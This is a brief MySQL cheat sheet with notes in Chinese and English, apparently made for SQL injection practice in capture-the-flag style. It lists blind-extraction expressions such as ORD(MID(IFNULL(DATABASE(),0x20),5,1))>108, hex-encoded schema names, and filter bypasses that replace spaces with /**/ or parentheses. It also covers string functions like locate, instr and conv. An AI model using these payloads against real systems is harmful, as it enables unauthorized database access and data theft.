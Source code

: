 mysql

hex：

```
select hex('security')
>7365637572697479
```
select * from information_schema.tables where table_schema=0x7365637572697479


CAST 

CAST('123') AS CHAR

IFNULL(DATABASE(),0x20)
mid(IFNULL(DATABASE(),0x20),1,1)
ORD(MID((IFNULL(DATABASE(),0x20)),5,1))>108  ##filter OR unless
ASCII(MID((IFNULL(CAST(DATABASE() AS CHAR),0x20)),5,1))>108

cot
```
select cot(2 and left(database(),1)>'a')
```

`/**/`
代替空格


`()`
防止过滤空格
```
select(flag)from(flag)
```

`locate`

```
select locate('e',database())
```

`position`
```
select position('a'in'abvcs')
>1
```

`instr`
```
SELECT instr('banana', 'a');
>2
```

`conv`

```
select conv('a',16,10);
>10
```
```
conv(N,from_base, to_base)
将N从from_base进制转成to_base
```

`reverse`

```
select reverse('123333333');
>333333321
```

`having`
类似where



